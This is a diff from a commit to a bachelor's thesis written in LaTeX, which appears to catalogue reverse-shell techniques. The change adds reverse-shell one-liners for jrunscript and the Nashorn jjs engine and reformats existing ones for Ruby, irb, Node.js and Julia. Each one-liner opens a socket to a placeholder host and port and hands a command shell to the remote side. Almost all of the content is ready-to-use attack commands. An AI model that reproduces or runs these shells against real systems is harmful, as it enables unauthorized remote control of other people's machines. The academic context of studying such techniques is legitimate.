

Before and after one commit to matusbucher/bachelor-thesis, a LaTeX thesis (thesis/main.tex, which reads thesis/chapters/chapter01.tex): part of page 25 of 33 before the commit and two parts of pages 25 and 26 of 33 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add jjs, jrunscript

```diff
--- a/thesis/chapters/chapter01.tex
+++ b/thesis/chapters/chapter01.tex
@@ -147,27 +150,44 @@
 \subsection{Ruby (\texttt{ruby})}
 
 \begin{cmdline}{bash}{^}{ruby}{}
-ruby -rsocket -e 'exit if fork; c=TCPSocket.new("^\host^",^\port^); while(cmd=c.gets); IO.popen(cmd,"r"){|io|c.print io.read} end'
+ruby -rsocket -e 'exit if fork; c = TCPSocket.new("^\host^",^\port^); while(cmd = c.gets); IO.popen(cmd,"r"){|io|c.print io.read} end'
 \end{cmdline}
 \TODO{dependencies}
 
 \subsubsection{Interactive Ruby Shell (\texttt{irb})}
 
 \begin{cmdline}{bash}{^}{echo,irb}{}
-echo 'require "socket"; exit if fork; c=TCPSocket.new("^\host^",^\port^); while(cmd=c.gets); IO.popen(cmd,"r"){|io|c.print io.read} end' | irb
+echo 'require "socket"; exit if fork; c = TCPSocket.new("^\host^",^\port^); while(cmd = c.gets); IO.popen(cmd,"r"){|io|c.print io.read} end' | irb
 \end{cmdline}
 \TODO{dependencies}
 
-\subsection{Node.js (\texttt{node})}
+\subsection{JavaScript runtime environments}
+
+\subsubsection{Node.js (\texttt{node})}
 
 \begin{cmdline}{bash}{|}{node}{}
 node -e 'shell = require("child_process").spawn("|\shell|"); require("net").connect(|\port|, "|\host|", function () { this.pipe(shell.stdin); shell.stdout.pipe(this); shell.stderr.pipe(this); })'
 \end{cmdline}
+\TODO{dependencies}
+
+\subsubsection{Generic scripting engine (\texttt{jrunscript})}
+
+\begin{cmdline}{bash}{^}{jrunscript}{}
+jrunscript -e 'var p = new java.lang.ProcessBuilder("^\shell^").redirectErrorStream(true).start(); var s = new java.net.Socket("^\host^",^\port^); var pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream(); var po = p.getOutputStream(), so = s.getOutputStream(); while(!s.isClosed()){ while(pi.available()>0) so.write(pi.read()); while(pe.available()>0) so.write(pe.read()); while(si.available()>0) po.write(si.read()); so.flush(); po.flush(); java.lang.Thread.sleep(50); try { p.exitValue(); break; } catch (e){}}; p.destroy(); s.close();'
+\end{cmdline}
+\TODO{dependencies}
+
+\subsubsection{Nashorn engine (\texttt{jjs})}
+
+\begin{cmdline}{bash}{^}{echo,jjs}{}
+echo 'var p = new java.lang.ProcessBuilder("^\shell^").redirectErrorStream(true).start(); var s = new java.net.Socket("^\host^",^\port^); var pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream(); var po = p.getOutputStream(), so = s.getOutputStream(); while(!s.isClosed()){ while(pi.available()>0) so.write(pi.read()); while(pe.available()>0) so.write(pe.read()); while(si.available()>0) po.write(si.read()); so.flush(); po.flush(); java.lang.Thread.sleep(50); try { p.exitValue(); break; } catch (e){}}; p.destroy(); s.close();' | jjs
+\end{cmdline}
+\TODO{dependencies}
 
 \subsection{Julia (\texttt{julia})}
 
 \begin{cmdline}{bash}{|}{julia}{}
-julia -e 'using Sockets; sock=connect("|\host|", parse(Int64,"|\port|")); while true; cmd = readline(sock); if !isempty(cmd); cmd = split(cmd); ioo = IOBuffer(); ioe = IOBuffer(); run(pipeline(`$cmd`, stdout=ioo, stderr=ioe)); write(sock, String(take!(ioo)) * String(take!(ioe))); end; end;'
+julia -e 'using Sockets; sock = connect("|\host|", parse(Int64,"|\port|")); while true; cmd = readline(sock); if !isempty(cmd); cmd = split(cmd); ioo = IOBuffer(); ioe = IOBuffer(); run(pipeline(`$cmd`, stdout=ioo, stderr=ioe)); write(sock, String(take!(ioo)) * String(take!(ioe))); end; end;'
 \end{cmdline}
 %$
 \TODO{dependencies}
```
Also changed, not shown: reverseshell/methodlist.txt (+2 -0 lines), reverseshell/Makefile, thesis/chapters/chapter01.tex (7 more changed lines).
